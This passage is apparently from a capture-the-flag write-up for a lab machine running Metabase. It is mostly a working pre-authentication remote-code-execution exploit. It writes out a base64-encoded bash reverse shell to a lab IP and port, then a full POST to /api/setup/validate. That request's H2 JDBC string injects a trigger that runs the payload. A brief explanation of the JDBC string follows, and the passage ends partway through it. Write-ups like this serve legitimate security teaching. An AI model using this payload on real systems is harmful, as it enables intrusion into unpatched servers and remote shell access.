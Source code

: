 I also explored the rest of [Metabase APIs](https://www.metabase.com/docs/latest/api-documentation).

First, prepare the reverse shell:

    echo "bash -i >&/dev/tcp/10.10.14.133/1234 0>&1" | base64
    
    >> YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjEzMy8xMjM0IDA+JjEK
    
Then, send a `POST` to the `/validate` endpoint with our RCE payload:

    POST /api/setup/validate HTTP/1.1
    Host: data.analytical.htb
    Content-Type: application/json
    Content-Length: 828

    {
        "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
        "details":
        {
            "is_on_demand": false,
            "is_full_sync": false,
            "is_sample": false,
            "cache_ttl": null,
            "refingerprint": false,
            "auto_run_queries": true,
            "schedules":
            {},
            "details":
            {
                "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,INSERT_YOUR_BASE64_PAYLOAD_HERE}|{base64,-d}|{bash,-i}')\n$$--=x",
                "advanced-options": false,
                "ssl": true
            },
            "name": "an-sec-research-team",
            "engine": "h2"
        }
    }

This will give us a reverse shell.

Note: I could only get this to work the first time, subsequent reverse shells gave me an error trying to `CREATE TRIGGER` so there may be something wrong with the machine.

How does this work? I will attempt to explaint the exploit code.

Essentially, we are telling the server to check its connection with a certain database, specified by the string in the format of Java Database Connectivity (JDBC) string. In addition to the initial connection string, SQL statements can also be chained (usually not allowed) within the string itself, leading to this vulnerability.

Let's break down the entire JDBC string:

    zip:/app/metabase.jar!/sample-database.db;

